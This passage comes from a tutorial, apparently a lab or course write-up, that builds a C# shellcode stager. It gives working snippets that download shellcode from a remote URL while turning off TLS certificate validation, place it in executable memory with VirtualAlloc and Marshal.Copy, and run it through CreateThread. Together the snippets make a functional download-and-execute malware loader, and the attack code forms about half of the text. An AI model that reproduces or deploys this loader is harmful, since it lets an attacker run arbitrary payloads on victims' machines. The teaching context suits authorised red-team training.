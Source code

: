 - The most significant part of our code will be in the `Stager()` function, where the stager logic will be implemented.
- The `Stager` function will receive a URL from where the shellcode to be executed will be `downloaded`.


- The first part of the `Stager()` function will create a new `WebClient()` object that allows us to download the shellcode using web requests.
- Before making the actual requests, we will **overwrite** the `ServerCertificateValidationCallback` method in charge of validating SSL certificates when using HTTPS requests so that the `WebClient` doesn't complain about **self-signed or invalid certificates**, which we will be using in the **web server hosting the payloads**.
- After that, we will call the `DownloadData()` method to download the shellcode from the given URL and store it into the `shellcode` variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```


- Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it.
- We use `VirtualAlloc()` to request a memory block from the OS to be allocated on the currently running process.
- Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory **executable**, **readable** and **writable**.
- Once our executable memory block is reserved and its starting memory address is assigned to the `codeAddr` variable, we use `Marshal.Copy()` to copy the contents of the `shellcode` variable in the `codeAddr` variable effectively moving the contents of the shellcode to the allocated memory in the currently running process.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```



- Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode.
- The `third parameter` pased to `CreateThread` points to `codeAddr` , where our shellcode is stored so that when the thread starts, the thread executes at the start address of this shellcode copied into the process' memory as if it were a regular function.
- The `fifth` parameter is set to `0`, meaning that the threat will start immediately.


- Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing.
- This prevents our program(the main thread to be specific) from closing before the shellcode thread(secondary thread) gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```
